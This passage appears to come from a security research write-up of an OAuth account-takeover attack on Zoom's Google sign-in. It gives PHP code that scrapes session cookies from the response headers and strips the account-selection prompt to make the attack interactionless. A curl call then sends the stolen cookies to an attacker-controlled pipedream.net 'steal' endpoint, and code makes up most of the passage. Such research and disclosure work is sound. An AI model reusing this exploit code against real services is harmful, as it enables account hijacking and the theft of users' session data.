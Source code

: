Our first step is to make a request to the `https://zoom.us/google_OAuth_signin` endpoint and save the response headers in a variable called `$headers` (all this is done on server side so we can read everything)

Save the Location header value which contains the OAuth URL in `$location` var
```php
$location = substr($headers[3], 10); //OAuth url is stored here
```

Save all the required cookies from the `Set-Cookie` header (it’s messy, we know, but it works 🙂) as they are required later on.

```php
$cookie8 = explode(";",substr($headers[8],12))[0];
$cookie14 = explode(";",substr($headers[14],12))[0];
$cookie15 = explode(";",substr($headers[15],12))[0];
$cookie16 = explode(";",substr($headers[16],12))[0];
$cookie18 = explode(";",substr($headers[17],12))[0];
$cookie19 = explode(";",substr($headers[18],12))[0];
$cookie20 = explode(";",substr($headers[19],12))[0];
$cookie21 = explode(";",substr($headers[20],12))[0];
$cookie22 = explode(";",substr($headers[21],12))[0];
$cookie23 = explode(";",substr($headers[22],12))[0];
$cookie24 = explode(";",substr($headers[23],12))[0];
$cookie27 = explode(";",substr($headers[26],12))[0];
$cookie28 = explode(";",substr($headers[27],12))[0];

$cookie_all = $cookie8.$cookie14.$cookie15.$cookie16.$cookie18.$cookie19.$cookie20.$cookie21.$cookie22.$cookie23.$cookie24.$cookie27.$cookie28;
```

Remember earlier we said we can remove the step which involves the victim choosing the appropriate Google account to Sign In with? If you remove the `&prompt=select_account` parameter from the OAuth URL, Google will skip the *Choose Account* step and automatically selects the account which has already given the consent. Additionally, we later found out that there was no need to do response-type switching, as the authorization code was still usable even if it remained in the query parameters (the state didn’t match, which is why it failed).

To model a real world attack, we are also sending all of the leaked data to our attacker controlled server, such as the required cookies and the OAuth URL

```php
echo "\n<br/><br/><br/><br/><br/><br/>";
$location = str_replace('&prompt=select_account', '', $location); // to make it interaction less
echo $location;

#send this cookie to attacker-controlled server https://en2celrrewbul.m.pipedream.net/steal?q=
$attackerDomain = "https://en2celrrewbul.m.pipedream.net/steal?q=";

$curl = curl_init();
curl_setopt($curl, CURLOPT_URL, $attackerDomain . urlencode($cookie_all));
curl_setopt($curl, CURLOPT_HEADER, true);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
```

